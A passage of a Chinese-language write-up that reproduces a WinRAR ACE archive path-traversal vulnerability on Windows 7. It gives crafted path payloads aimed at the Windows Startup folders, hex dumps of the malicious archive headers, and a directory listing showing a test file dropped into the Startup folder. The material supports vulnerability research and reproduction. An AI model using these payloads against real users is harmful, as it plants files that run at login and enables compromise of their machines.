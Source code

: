   不过在win7开启UAC 等保护的情况下，确实会出现漏洞分析时讲过的释放目录不同的情况

- **构造进行系统默认自启动目录攻击**

  win7情况下，直接采用，挖掘作者的payload ,测试，仅在桌面上解压文件夹中生成相应目录，释放文件，这个是构造的payload的问题应该为，才可以攻击成功

  ```
  C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe
  ```

  ```cmd
  00000000h: B5 45 31 00 00 00 90 2A 2A 41 43 45 2A 2A 14 14 ; 礒1...?*ACE**..
  00000010h: 02 00 6F 54 5B 4E E8 03 5D E6 00 00 00 00 16 2A ; ..oT[N?]?....*
  00000020h: 55 4E 52 45 47 49 53 54 45 52 45 44 20 56 45 52 ; UNREGISTERED VER
  00000030h: 53 49 4F 4E 2A D9 E9 71 00 01 01 80 0D 00 00 00 ; SION*匍q...€....
  00000040h: 0D 00 00 00 8E 53 5B 4E 20 00 00 00 5C 4D 43 7C ; ....嶴[N ...\MC|
  00000050h: 00 03 0A 00 54 45 52 00 43 3A 2E 2E 2F 41 70 70 ; ....TER.C:../App
  00000060h: 44 61 74 61 5C 52 6F 61 6D 69 6E 67 5C 4D 69 63 ; Data\Roaming\Mic
  00000070h: 72 6F 73 6F 66 74 5C 57 69 6E 64 6F 77 73 5C 53 ; rosoft\Windows\S
  00000080h: 74 61 72 74 20 4D 65 6E 75 5C 50 72 6F 67 72 61 ; tart Menu\Progra
  00000090h: 6D 73 5C 53 74 61 72 74 75 70 5C 54 45 53 54 50 ; ms\Startup\TESTP
  000000a0h: 41 59 4C 4F 41 44 2E 74 78 74 41 41 41 41 41 41 ; AYLOAD.txtAAAAAA
  000000b0h: 41 41 41 41 20 0D 0A                            ; AAAA ..
  ```

  采用payload

  ```
  C:\C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe
  ```

  ```cmd
  00000000h: B5 45 31 00 00 00 90 2A 2A 41 43 45 2A 2A 14 14 ; 礒1...?*ACE**..
  00000010h: 02 00 6F 54 5B 4E E8 03 5D E6 00 00 00 00 16 2A ; ..oT[N?]?....*
  00000020h: 55 4E 52 45 47 49 53 54 45 52 45 44 20 56 45 52 ; UNREGISTERED VER
  00000030h: 53 49 4F 4E 2A AA 89 6E 00 01 01 80 0D 00 00 00 ; SION*獕n...€....
  00000040h: 0D 00 00 00 8E 53 5B 4E 20 00 00 00 5C 4D 43 7C ; ....嶴[N ...\MC|
  00000050h: 00 03 0A 00 54 45 4F 00 43 3A 5C 43 3A 5C 50 72 ; ....TEO.C:\C:\Pr
  00000060h: 6F 67 72 61 6D 44 61 74 61 5C 4D 69 63 72 6F 73 ; ogramData\Micros
  00000070h: 6F 66 74 5C 57 69 6E 64 6F 77 73 5C 53 74 61 72 ; oft\Windows\Star
  00000080h: 74 20 4D 65 6E 75 5C 50 72 6F 67 72 61 6D 73 5C ; t Menu\Programs\
  00000090h: 53 74 61 72 74 75 70 5C 54 45 53 54 50 41 59 4C ; Startup\TESTPAYL
  000000a0h: 4F 41 44 2E 74 78 74 41 41 41 41 41 41 41 41 41 ; OAD.txtAAAAAAAAA
  000000b0h: 41 20 0D 0A                                     ; A ..
  ```

  可以成功攻击

  ```cmd
  C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup>dir
   驱动器 C 中的卷没有标签。
   卷的序列号是 2E73-CE10
  
   C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup 的目录
  
  2019/02/27  13:25    <DIR>          .
  2019/02/27  13:25    <DIR>          ..
  2019/02/27  10:28                13 TESTPAYLOAD.txt
                 1 个文件             13 字节
                 2 个目录 52,365,533,184 可用字节
  ```
